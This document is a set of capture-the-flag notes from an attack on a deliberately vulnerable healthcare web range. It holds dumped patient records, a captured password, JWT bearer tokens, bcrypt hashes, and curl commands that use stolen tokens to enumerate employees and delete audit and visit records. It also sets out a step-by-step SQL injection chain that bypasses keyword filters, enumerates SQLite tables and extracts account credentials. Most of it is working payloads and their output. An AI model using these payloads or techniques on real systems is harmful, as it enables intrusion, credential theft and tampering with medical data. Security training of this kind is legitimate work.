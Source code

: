 # CTF Schwab Notes


Found patient list:

```
[Patient[id=3, firstName=Charlie, lastName=Macall, birthday=2001-01-01, gender=Male, phone=3605550272], Patient[id=6, firstName=Zollie, lastName=Crighton, birthday=2004-07-30, gender=Male, phone=2065556991], Patient[id=7, firstName=Dorice, lastName=Beecheno, birthday=1944-10-28, gender=Female, phone=2065555143], Patient[id=85, firstName=Gamaliel, lastName=Annes, birthday=2010-08-28, gender=Male, phone=2065551661], Patient[id=86, firstName=Finley, lastName=Fearenside, birthday=1965-05-28, gender=Male, phone=2065553289], Patient[id=87, firstName=Desmund, lastName=Doornbos, birthday=1966-03-05, gender=Male, phone=2065559705], Patient[id=88, firstName=Calhoun, lastName=Armitt, birthday=1986-05-25, gender=Male, phone=2065557408], Patient[id=89, firstName=Meade, lastName=Bonniface, birthday=1959-02-22, gender=Female, phone=2065559205], Patient[id=90, firstName=Gardiner, lastName=Crisp, birthday=1985-06-29, gender=Male, phone=2065558359], Patient[id=91, firstName=Udell, lastName=Agastina, birthday=1957-11-05, gender=Male, phone=2065550075], Patient[id=92, firstName=Mile, lastName=Greaterex, birthday=1960-12-02, gender=Male, phone=2065551161], Patient[id=93, firstName=Regan, lastName=Setford, birthday=1956-09-23, gender=Female, phone=2065552370], Patient[id=94, firstName=Malory, lastName=Stammer, birthday=1978-09-26, gender=Female, phone=2065556294], Patient[id=95, firstName=Florance, lastName=Dyche, birthday=1989-05-17, gender=Female, phone=2065551556], Patient[id=96, firstName=Bentlee, lastName=Eversley, birthday=1959-07-18, gender=Male, phone=2065555479], Patient[id=97, firstName=Bel, lastName=Base, birthday=1972-08-21, gender=Female, phone=2065555996], Patient[id=98, firstName=Ettie, lastName=Raff, birthday=1981-02-21, gender=Female, phone=2065554821], Patient[id=99, firstName=Kippy, lastName=Caldecutt, birthday=1970-07-31, gender=Male, phone=2065558906], Patient[id=100, firstName=Katee, lastName=Faichnie, birthday=2003-12-29, gender=Female, phone=2065556606], Patient[id=101, firstName=Corine, lastName=Verey, birthday=1963-05-16, gender=Female, phone=2065559972], Patient[id=102, firstName=Ambrose, lastName=Calyton, birthday=2007-01-09, gender=Male, phone=2065559697], Patient[id=103, firstName=Rowney, lastName=Oran, birthday=1985-03-26, gender=Male, phone=2065559298], Patient[id=104, firstName=Tawsha, lastName=McAllen, birthday=1974-08-27, gender=Female, phone=2065556187], Patient[id=105, firstName=Park, lastName=Bramwich, birthday=1960-02-14, gender=Male, phone=2065557676], Patient[id=106, firstName=Sonja, lastName=Vollam, birthday=1974-05-11, gender=Female, phone=2065553474], Patient[id=107, firstName=Theressa, lastName=Pettyfer, birthday=1988-07-08, gender=Female, phone=2065552262]]
```

## Gerard Sekawa

Phone: 15305553475

### Creds

[gerard.sekawa ::: S3@h@wksM@rin3rsKr@k3n] seahawksmarinerskraken

### JWT

(JWT does expire - needs to be refreshed every 48 hours)

`eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJodHRwczovL3NoYWRvd2hlYWx0aC5jb20vaXNzdWVyIiwidXBuIjoiZ2VyYXJkLnNla2F3YSIsImdyb3VwcyI6WyJEb2N0b3IiXSwiaWF0IjoxNjk4MzM4MTQwLCJleHAiOjE2OTg0MjQ1NDAsImp0aSI6IjE1ZTJmNjgzLWQzMzItNGRiOC05NjBhLTg4YzlkY2NlNmJjNiJ9.sk-cEkiE9-RlUbqZ9e-X6pcCtQ8n8Z9xB2AKQ1Fq_jYNgDzLwVOFWsnna8AoiHYj6xqYMZgRFT_tYOwfIqq_vtzeBiHrtaqyjE_IQqjiWS_RJqD1PnF_opgDiayVcsMiJcY6botdFkRZpGvJoKIUtTa9rBfbHERrNXF39fxViK1l7wyDz428KhM1UJsh_cydPDn68nvpuZRqJceMxxdzTi4FrEaLkSdEEteR5vgSnkbSz1m1DpknFjvj5gkV4xm5yvSMYzJGMaVaDMPVuYdmaw8WL63pZ2aVwujz5N0poiDHj0PkJ9uLDyBZxbvMckmcLts65vskHswHRRpwZr1sKw`

## HASHES

`curl "https://18-144-24-236-shadowhealth.vulnerablesites.net/range/shadowhealth/api/health/employees/$i" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0" -H "Accept: application/json, text/plain, */*" -H "Accept-Language: en-US,en;q=0.5" -H "Accept-Encoding: gzip, deflate, br" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJodHRwczovL3NoYWRvd2hlYWx0aC5jb20vaXNzdWVyIiwidXBuIjoiZ2VyYXJkLnNla2F3YSIsImdyb3VwcyI6WyJEb2N0b3IiXSwiaWF0IjoxNjk4MTkxMDAzLCJleHAiOjE2OTgyNzc0MDMsImp0aSI6IjA4N2ZmOTg1LTRmZTEtNDAxOS04ODQ3LTYzMWM5OTIwNTk1ZCJ9.Wi9gLcUgZWm8ItUohIXVM9XIPrZWTLAQPaubBr91n35kRmYHMOiih24jsCwnAZsRlkPZCF8daqP0EAoiODjOIZrm5T-VNzMuM4YIazka957ZQMuzW4xt3m0MvS1KavGOdmW_WOsfTOPgTXLZNjCWhEdtFalAxd8hZ-073iZ5L7YB0jwa0kvq0syctULwpGR3VEmYQlkExzD1odJ7w4xACf8fZ5wFMTBnE-N9JIG_dQ-B7fWjVgi5I5I3dx3nBm4da2S-CzRLG-h9A4OgL9_0oVqdQ4lqkdAawTsfyDU5R4p3RlOWbwJsoaXVNFUJzA60qRoJnSbvZDdORuDcnNN0-Q"`

- [3] jordan.haig > $2a$10$G9shWvIyeHfAWLGzNEIVh.kGpvZHyvi6oANVxnDUn/QPuwql1FPn.
- [4] emily.johns > $2a$10$vyjHALllTIhoL34r4Mrzt.CKUS1KRgn97t/krVTF9uHDqQsP9Beq2
- [9] elisa.maldonado > $2a$10$byyCEnBN8/9h1jX/Ukd45OyMl1DkzhzMjBFI9oFKOLR0pDF./pEPK
- [10] brandi.simmons > $2a$10$6O.x7VwTgb1juMXVn7SUN.se7QzKfiefclgedHwz.tyhFFRzKtrUG
- [6] gerard.sekawa > $2a$10$/zt2ed7.xyx96SX8cXyzROMcOk4TJqpckkFRQw6Sv5Rr1Ps4xI3Xy
- [8] shelly.buckle > 9cae3b179d877717017105a99b0be8dad99f44b30eac40d937cbb6ff8775b231
....
- [5] alice.apple (admin) > $2a$10$/eds59431.qsbllSsZ.2o.3kmsBG5p/KshsQ/7hgn8dXO8ZhCc1R6
- [12] sophia.taylor (admin) > $2a$10$Aj2Cb2oW9WD9dZ03YdIbBuhu8jYCpL2KZ72j0tGYrytoDnO6JlTyS
- [13] evelyn.rodriguez (admin) > $2a$10$bIHqq5l99lcA52VZprpNLekkJoE4fnwFDlFHggicGwMlHZ/X4.xHW
- [14] charlotte.jones (admin) > $2a$10$P7hGYjNP8APDXEwTB2pWUOfBRi8IZhrL6RDkMZG9D.o9rUREIStmW
- [15] harper.garcia (admin) > $2a$10$jpZBGT0jRNvOxV.RHFXr8e7iRUI/wjOpyGll1n7jQ76v.2/4dMfMi
- [16] abigail.martinez (admin) > $2a$10$9jtfW8ucfwreuuJbvRTp8..IPbU9/xYqw2CuYYfZwgDgQRMIa7TwW

```
$2a$10$G9shWvIyeHfAWLGzNEIVh.kGpvZHyvi6oANVxnDUn/QPuwql1FPn.
$2a$10$vyjHALllTIhoL34r4Mrzt.CKUS1KRgn97t/krVTF9uHDqQsP9Beq2
$2a$10$byyCEnBN8/9h1jX/Ukd45OyMl1DkzhzMjBFI9oFKOLR0pDF./pEPK
$2a$10$6O.x7VwTgb1juMXVn7SUN.se7QzKfiefclgedHwz.tyhFFRzKtrUG
$2a$10$/zt2ed7.xyx96SX8cXyzROMcOk4TJqpckkFRQw6Sv5Rr1Ps4xI3Xy
$2a$10$/eds59431.qsbllSsZ.2o.3kmsBG5p/KshsQ/7hgn8dXO8ZhCc1R6
$2a$10$WderdoFusz0FoWrr.bCrkOiycCU7DKF7o3KyUBUo/Y6osb5qbrQpG
$2a$10$Aj2Cb2oW9WD9dZ03YdIbBuhu8jYCpL2KZ72j0tGYrytoDnO6JlTyS
$2a$10$bIHqq5l99lcA52VZprpNLekkJoE4fnwFDlFHggicGwMlHZ/X4.xHW
$2a$10$P7hGYjNP8APDXEwTB2pWUOfBRi8IZhrL6RDkMZG9D.o9rUREIStmW
$2a$10$jpZBGT0jRNvOxV.RHFXr8e7iRUI/wjOpyGll1n7jQ76v.2/4dMfMi
$2a$10$9jtfW8ucfwreuuJbvRTp8..IPbU9/xYqw2CuYYfZwgDgQRMIa7TwW
```

## Account Information

Patient 4 already has an associated account. 
IRENE GREEN = PATIENT 4 > CREDS = [user2 ::: pass2]

## Delete Audit

```
curl "https://18-144-24-236-shadowhealth.vulnerablesites.net/range/shadowhealth/api/health/audits?patientId=4^%^20^%^20--" -X DELETE -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0" -H "Accept: application/json, text/plain, */*" -H "Accept-Language: en-US,en;q=0.5" -H "Accept-Encoding: gzip, deflate, br" -H "Referer: https://18-144-24-236-shadowhealth.vulnerablesites.net/range/shadowhealth/portal/patient/patients/4/auditHistory" -H "Connection: keep-alive" -H "Sec-Fetch-Dest: empty" -H "Sec-Fetch-Mode: no-cors" -H "Sec-Fetch-Site: same-origin" -H "TE: trailers" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJodHRwczovL3NoYWRvd2hlYWx0aC5jb20vaXNzdWVyIiwidXBuIjoidXNlcjIiLCJncm91cHMiOlsiUGF0aWVudCJdLCJpYXQiOjE2OTgxOTM3MzgsImV4cCI6MTY5ODI4MDEzOCwianRpIjoiMTlhNTU5OWItNDg3Yi00OTNlLTkxNTAtOTg1NmJjNjQ5ZDRkIn0.PBIji8ZFkW8VNKzmMksGx81CoPKhEqMcxZfIx7rAvZu_et1zj25rmLzizsTKHSLWddo1CVcF_HCVALgiPgWOUmnFdWMc40ftCAkApFC80Uhizk7XAkE_lAZiMkuS72NBqNFHxQF73erBVjyneucoqEfdenNvj1VYhvQPz46zkRi6SrWSi-UF6Mtb7nb8Ja4XjCw2tHUDNpJjlwMyw2zYPWwMUjRd5ngaIjTkn7QfXaivVKzMK0304PisK6t3wBRkaY4fpjXw5Un2xQM4ScmJNZHLCf179l9MBUDriGx2wCDDw9IRIfFil7E8ccF4aKcB2NqYTznUu7mWMfjn6rjk7Q" -H "Origin: https://18-144-24-236-shadowhealth.vulnerablesites.net" -H "Pragma: no-cache" -H "Cache-Control: no-cache"
```

## Delete Service

Visit ID = 5598
Service ID = 15 & 19

```
curl "https://18-144-24-236-shadowhealth.vulnerablesites.net/range/shadowhealth/api/health/visits/5598/services/19" -X DELETE -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0" -H "Accept: application/json, text/plain, */*" -H "Accept-Language: en-US,en;q=0.5" -H "Accept-Encoding: gzip, deflate, br" -H "Referer: https://18-144-24-236-shadowhealth.vulnerablesites.net/range/shadowhealth/portal/patient/patients/4/visits/5598" -H "Connection: keep-alive" -H "Sec-Fetch-Dest: empty" -H "Sec-Fetch-Mode: no-cors" -H "Sec-Fetch-Site: same-origin" -H "TE: trailers" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJodHRwczovL3NoYWRvd2hlYWx0aC5jb20vaXNzdWVyIiwidXBuIjoidXNlcjIiLCJncm91cHMiOlsiUGF0aWVudCJdLCJpYXQiOjE2OTgxOTM3MzgsImV4cCI6MTY5ODI4MDEzOCwianRpIjoiMTlhNTU5OWItNDg3Yi00OTNlLTkxNTAtOTg1NmJjNjQ5ZDRkIn0.PBIji8ZFkW8VNKzmMksGx81CoPKhEqMcxZfIx7rAvZu_et1zj25rmLzizsTKHSLWddo1CVcF_HCVALgiPgWOUmnFdWMc40ftCAkApFC80Uhizk7XAkE_lAZiMkuS72NBqNFHxQF73erBVjyneucoqEfdenNvj1VYhvQPz46zkRi6SrWSi-UF6Mtb7nb8Ja4XjCw2tHUDNpJjlwMyw2zYPWwMUjRd5ngaIjTkn7QfXaivVKzMK0304PisK6t3wBRkaY4fpjXw5Un2xQM4ScmJNZHLCf179l9MBUDriGx2wCDDw9IRIfFil7E8ccF4aKcB2NqYTznUu7mWMfjn6rjk7Q" -H "Origin: https://18-144-24-236-shadowhealth.vulnerablesites.net" -H "Pragma: no-cache" -H "Cache-Control: no-cache"
```

## Add Debug Insurance

{
    "5": {
        "id": 7,
        "companyName": "Debug Company",
        "code": "DEBUG",
        "contracted": false
    }
}


## Prescription Challenges

{
    "1": {
        "id": 538,
        "medicine": {
            "id": 23,
            "name": "Doxivirenz",
            "code": "SDH121",
            "description": ""
        },
        "form": "Cream",
        "quantity": 79,
        "pharmacyInfo": null,
        "doctorName": "Maxis Stewart",
        "doctorPhone": "+15305553475 ext 223"
    }
}

Write yourself a prescription > Verification Code is 0000000 (use an existing prescription type for patient)

{"id":580,"medicine":{"id":23,"name":"Doxivirenz","code":"SDH121","description":""},"form":"Cream","quantity":420,"pharmacyInfo":null,"doctorName":"Shelly Buckle","doctorPhone":"+15305553475 ext 224"}

A UNION made in heaven....the top providers and biggest discounts....
Have you tried different letter casing for the union key word? Something like UnIoN or uNIOn?

ACTUAL QUERY: `SELECT * FROM Employee WHERE title = 'Physician' AND (first_name like '%text' OR last_name like '%text')`

LISTS ALL EMPLOYEES: `') UNIOn Select * FROM Employee --`

EXPLOIT: `') AND 1=2 UNIOn Select '1a','2b',123,'4d',456,789,'7g','8h' FROM employee --`

Discovered its SQLITE

GET TABLES: `') AND 1=2 UNIOn Select 1,2,tbl_name,4,5,6,7,8 FROM sqlite_master --`

GET DISCOUNT CODES:

```
1. ') AND 1=2 UNIOn Select 1,2,tbl_name,4,5,6,7,8 FROM sqlite_master --
2. ') AND 1=2 UNIOn Select 1,2,sql,4,5,6,7,8 FROM sqlite_master WHERE name='DiscountCode' --
3. ') AND 1=2 UNIOn Select 1,2,code,4,5,6,7,8 FROM DiscountCode --

Discount Codes:
FIRST_VISIT_ON_US
SHADOW_HEALTH_20_OFF
SHADOW_HEALTH_VIP_SPECIAL_OFF

Interesting Tables:
- Access
- Account > role, username, password, salt
- Employee

1. ') AND 1=2 UNIOn Select 1,2,sql,4,5,6,7,8 FROM sqlite_master WHERE name='Account' --
2. ') AND 1=2 UNIOn Select 1,2,role || ":" || username,4,password,salt,7,8 FROM Account --
```
